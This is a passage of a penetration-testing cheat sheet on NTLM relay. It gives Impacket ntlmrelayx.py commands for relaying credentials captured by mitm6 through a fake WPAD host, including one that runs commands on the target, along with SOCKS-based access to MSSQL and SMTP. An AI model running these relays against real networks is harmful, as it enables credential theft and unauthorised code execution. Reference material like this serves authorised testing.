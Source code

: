 ```
[...]

# MSSQL example.
proxychains mssqlclient.py -windows-auth <DOMAIN>/<USERNAME_MSSQL_EX>@<IP_MSSQL_EX>

# SMTP example.
Thunderbird can be configured to make use of ntlmrelayx SOCKS service.
The Authentication method should be set to "Normal Password" and the (Server Setting->Advanced) "Maximum number of server connections to cache" set to 1.
The under "Network Setting" the SOCKS service can be specifed.
For more information, refer to: https://www.secureauth.com/blog/playing-relayed-credentials.
```

###### IPv6 WPAD relay

The `Impacket`'s `ntlmrelayx.py` utility can be used to relay `NTLM`
authentication captured using the `mitm6` utility.

```
# The authentication can be relayed to a specific service, such as smb://<TARGET_IP | TARGET_HOSTNAME> or ldaps://<TARGET_IP | TARGET_HOSTNAME>
# -wh: the specified WPAD hostname should be a hostname not in use in the victim network

ntlmrelayxpy -6 [-smb2support] -wh <FAKE_WPAD_HOST> -t <TARGET_IP | TARGET_HOSTNAME | TARGET_SERVICE>
ntlmrelayxpy -6 [-smb2support] -wh <FAKE_WPAD_HOST> -t <TARGET_IP | TARGET_HOSTNAME | TARGET_SERVICE> -c <COMMAND>
ntlmrelayxpy -6 [-smb2support] -wh <FAKE_WPAD_HOST> -t <TARGET_IP | TARGET_HOSTNAME | TARGET_SERVICE> -socks
```

--------------------------------------------------------------------------------

### References

https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html
https://www.sternsecurity.com/blog/local-network-attacks-llmnr-and-nbt-ns-poisoning
https://pen-testing.sans.org/blog/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python
https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/
https://www.secureauth.com/blog/playing-relayed-credentials
https://docs.microsoft.com/en-us/previous-versions/technet-magazine/cc160954(v=msdn.10)?redirectedfrom=MSDN
https://github.com/NotMedic/NetNTLMtoSilverTicket
https://blog.netspi.com/exploiting-adidns/#adidnszones
https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/active-directory-integrated-dns-zones
